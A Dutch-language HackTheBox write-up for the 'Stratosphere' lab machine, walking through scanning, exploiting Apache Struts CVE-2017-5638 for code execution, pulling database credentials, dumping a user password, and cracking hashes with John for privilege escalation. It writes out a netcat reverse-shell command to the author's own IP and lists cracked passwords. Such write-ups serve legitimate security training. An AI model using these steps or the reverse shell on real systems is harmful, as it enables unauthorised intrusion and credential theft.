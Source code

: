 # Stratosphere

## Low privilege

Eerst begin ik met een Nmap scan:

``` nmap -sV -p- -T5 -oN 10.10.10.64.nmap```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/1.PNG" />

<ul>
	<li>sV: Probeer versie namen te vinden</li>
	<li>-p-: Scan alle TCP poorten </li>
	<li>-T5: Scan snel en aggresief</li>
	<li>-oN: Save output als Nmap formaat </li>
</ul>


Er is een webserver dus draai ik meteen een dirbsearch scan:

```python3 dirsearch.py -u http://10.10.10.64 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 25 ```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/2.PNG" />
Argumenten spreken voor zich neem ik aan.

Wanneer ik naar /Monitoring navigeer word ik omgeleid naar http://10.10.10.64/Monitoring/example/Welcome.action. Ik wist niet precies wat er bij .action bestanden hoorden dus had ik dat opgezocht op Google.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/3.PNG" />

Ik lees Struts, dus weet ik genoeg.

```searchsploit -x linux/webapps/41570.py ```

Dit is een Python script dat CVE-2017-5638 probeert te exploiteren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/4.PNG" />

Hoppa, remote code execution! Het is nu de bedoeling dat ik een shell krijg, en dat is niet zo moeilijk. In plaats van ```echo "Gio" ``` als commando te gebruiken gebruik ik een commando waarmee ik dus een shell kan krijgen. De commando die ik meestal gebruik is: ```nc -e /bin/sh [Mijn tunnel ip] 1234 ```. Maar dit werkt niet, sterker nog geen één reverse shell commando werkt, dit kom waarschijnlijk omdat de script niet kan blijven hangen maar een error gooit. 

Ongeveer 2 uur later is mijn irritatie grens bereikt en probeer ik te kijken of er misschien andere interesante dingen zijn. Het eerste wat ik dan doe is kijken of de webserver database credentials lekt en met deze proberen in te loggen. Ik zie (via het Python script) dat er een ``db_connect`` bestaat, en deze bevatten de database credentials :).

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/5.PNG" />

Oké vet, maar ik heb geen shell dus is het niet echt mogelijk om een interactieve MySQL shell te krijgen. Na een tijdje door de man pagina van MySQL te hebben gebladerd kwam ik iets heel interesant tegen:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/6.PNG" />

Hierdoor is het mogelijk om statements uit te voeren zonder een interactieve shell te hebben. Dus, ik weet de credentials van de database en ik heb een manier gevonden om statements uit te voeren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/7.PNG" />

Dit ziet er héél lekker uit. Hier zie ik een gebruiker genaamd Richard en zijn wachtwoord. Dit zijn vast ook zijn SSH credentials.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/8.PNG" />

Boom, ez lyfe.

## Privilege escalation

Het eerste dat ik doe als ik user ben op een machine is kijken of die user bestanden mag openen als root, dit doe ik doormiddel van de commando `` sudo -l ``

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/9.PNG" />

Het ziet er naar uit dat ik `` /home/richard/test.py `` mag uitvoeren als root. eens kijken wat dat script precies doet:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/10.PNG" />

Dit ziet er naar uit dat dit een soort <u>Solve-the-hash(?)</u> challenge is en zodra je alles goed heb het /root/success.py uitvoert. In het script staat precies welke algoritme bij welke hash hoort. ```John``` is een tool die dit voor mij kan oplossen.

Eerste hash: `` john --format=raw-md5 --wordlist=~/rockyou.txt hash # kaybboo!`` <br>
Tweede hash: `` john --format=raw-sha1 --wordlist=~/rockyou.txt hash # ninjaabisshinobi`` <br>
Derde  hash: `` john --format=raw-md4 --wordlist=~/rockyou.txt hash # legend72`` <br>
Vierde hash: `` john --format=raw-blake2 --wordlist=~/rockyou.txt hash # Fhero6610 `` <br>
